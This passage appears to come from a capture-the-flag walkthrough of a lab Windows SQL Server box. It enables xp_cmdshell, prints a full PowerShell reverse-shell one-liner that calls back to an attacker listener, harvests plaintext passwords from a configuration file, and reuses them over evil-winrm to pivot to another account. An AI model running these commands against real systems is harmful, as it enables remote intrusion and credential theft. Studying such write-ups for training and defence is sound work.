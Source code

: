 Now we have an MS SQL interactive session. We want to enable `xp_cmdshell`:

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```

We see the command output:

```
sequel\sql_svc
```

This confirms we can run OS commands under the context of the service account `sql_svc`. Next, we craft a reverse shell using PowerShell:

```sql
EXEC xp_cmdshell 'powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient(''10.10.14.3'',59812);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"'
```

**Tip:** Make sure to start a listener (e.g., `nc -lvnp 59812`) on your machine. Soon, we receive a shell as `sequel\sql_svc`.

---

## Step 5: Pivoting to `ryan`

With a shell as `sql_svc`, we hunt for interesting files. Checking `C:\SQL2019\` or enumerating various configuration/log files is standard:

```powershell
Get-ChildItem "c:\SQL2019" -recurse | where {$_.Name -match '.ini'}
```

We discover `sql-Configuration.INI` containing:

```
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SAPWD="MSSQLP@ssw0rd!"
```

Testing this password against various domain users can be a next step. Indeed, `WqSZAF6CysDQbGb3` works for the `ryan` domain account:

```bash
evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3
```

This spawns a PowerShell session as `ryan`. We now have an interactive Evil-WinRM shell with more privileges than the SQL service account.

---

